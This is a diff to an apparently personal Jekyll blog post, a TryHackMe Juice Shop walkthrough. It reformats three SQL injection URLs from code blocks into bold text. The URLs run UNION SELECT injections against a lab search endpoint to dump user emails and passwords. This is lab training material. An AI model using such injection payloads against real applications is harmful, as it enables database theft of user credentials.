

Before and after one commit to nbaertsch/nbaertsch.github.io, a Jekyll site: the page built from _posts/2020-06-09-try-hack-me-juice-shop.md, in a window 1280 px wide. Shown: the part 2054-3974 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2020-06-09-try-hack-me-juice-shop.md
+++ b/_posts/2020-06-09-try-hack-me-juice-shop.md
@@ -62,25 +62,20 @@ http://10.10.118.46/rest/product/search?q=test
 <br/>
 
 You can perform a sqli here with the syntax
-```
-http://10.10.118.46/rest/product/search?q=test')) union select * from users;--
-```
+**http://10.10.118.46/rest/product/search?q=test')) union select * from users;--**
 <img src="../assets/img/thm/juiceshop/sqli3.png">
 <br/>
 
 We can see from normal use of the endpoint that the returned table has 8 collumns ('id', 'name', 'description', 'price', 'image', 'createdAt', 'updatedAt', 'deletedAt')
 <br/>
 
-```
-http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', 'createdAt', 'updatedAt', 'deletedAt--
-```
+**http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', 'createdAt', 'updatedAt', 'deletedAt--**
 <img src="../assets/img/thm/juiceshop/restapi2.png">
 <br/>
 
 From here we can dump whatever we want from the database presuming we know the table and collumn names.  From the previous test, we at least know that the users table exists.
-```
-http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', id, email, password from users--
-```
+
+**http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', id, email, password from users--**
 <img src="../assets/img/thm/juiceshop/userdump.png">
 <br/>
 
````
